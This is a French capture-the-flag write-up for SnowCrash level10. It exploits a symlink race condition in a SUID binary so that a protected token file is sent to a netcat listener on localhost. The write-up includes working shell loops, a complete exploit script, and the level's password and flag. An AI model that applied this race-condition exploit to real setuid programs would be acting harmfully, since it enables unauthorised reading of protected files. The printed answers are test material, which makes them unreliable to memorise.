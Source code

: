 # Level10

```bash
ls -l
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
```

1) Analyse des permissions et du fonctionnement initial :
    - Lorsque vous examinez les permissions du fichier exécutable level10, vous remarquez qu'il a le bit SUID activé (-rwsr-sr-x+). Cela signifie que lorsqu'il est exécuté, il s'exécute avec les privilèges de l'utilisateur propriétaire du fichier, flag10 dans ce cas.

    - En exécutant ./level10 sans arguments, vous remarquez qu'il attend deux arguments : le premier est un fichier à envoyer, et le deuxième est l'hôte de destination. Si vous n'avez pas accès au fichier, il affiche "You don't have access to [nom du fichier]".

    - Vous découvrez que le programme se connecte à un hôte distant, probablement sur un port spécifique. Cependant, l'hôte cible n'est pas spécifié.

```bash
/level10
./level10 file host
        sends file to host if you have access to it

./level10 token localhost
You don't have access to token

./level10 /bin/ls localhost
Connecting to localhost:6969 .. Unable to connect to host localhost
```
```bash
echo '.*( )*.' > /tmp/swap;
```
2) Découverte du port cible :
    - Pour déterminer le port cible, vous créez un fichier vide nommé /tmp/swap contenant le motif .*( )*.. Ce motif sera utilisé pour filtrer les données reçues.
    - Vous démarrez un serveur Netcat en mode écoute (nc -l 6969) pour capturer les données envoyées par level10. Le filtre tr -d '.*( )*.' permet de supprimer les caractères spéciaux de ces données.
```bash
(while true; do nc -l 6969 | tr -d '.*( )*.'; done)& 
```

3) Création de liens symboliques :
    - Vous créez un script qui crée continuellement des liens symboliques (ln -fs) du fichier /tmp/swap vers /tmp/toto et du fichier token vers /tmp/toto.

```bash
(for (( ; ;)); do ~/level10 /tmp/toto 127.0.0.1 &> /dev/null; done;)&
```
4) Capture des données :
    - Maintenant, lorsque level10 est exécuté en continu avec /tmp/toto comme argument et en redirigeant vers l'adresse IP 127.0.0.1, il envoie continuellement des données.
    - Ces données sont interceptées par le serveur Netcat, filtrées à l'aide du motif, et stockées dans un fichier, prêt à être analysées.
```bash
for (( ; ; )); do         ln -fs /tmp/swap /tmp/toto;         ln -fs ~/token /tmp/toto; done;
```

5) Récupération du jeton :
    - Les liens symboliques sont continuellement modifiés pour pointer vers le fichier token. Le serveur Netcat filtre ces données et stocke le résultat dans un fichier.

Lorsque tout cela est en place, level10 envoie continuellement des données vers le serveur Netcat, qui les filtre et stocke le résultat dans un fichier. Parallèlement, les liens symboliques sont modifiés pour pointer vers le fichier token. Cette combinaison d'actions vous permet de récupérer le contenu de token et d'obtenir le jeton du niveau suivant.

```bash
level10@SnowCrash:~$ su flag11
Password: woupa2yuojeeaaed06riuj63c
flag11@SnowCrash:~$ getflag
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s

```

Script pour recup le flag

```bash
DEFAULT='.*( )*.'

echo $DEFAULT > /tmp/swap

(nc -l 6969 | grep -v -e "$DEFAULT") &

(
	while true; do
		ln -fs /tmp/swap /tmp/foo
		(ln -fs /home/user/level10/token /tmp/foo &)
		/home/user/level10/level10 /tmp/foo 127.0.0.1 &>/dev/null &
	done
)&

sleep 2
killall nc &>/dev/null
killall bash &>/dev/null
```

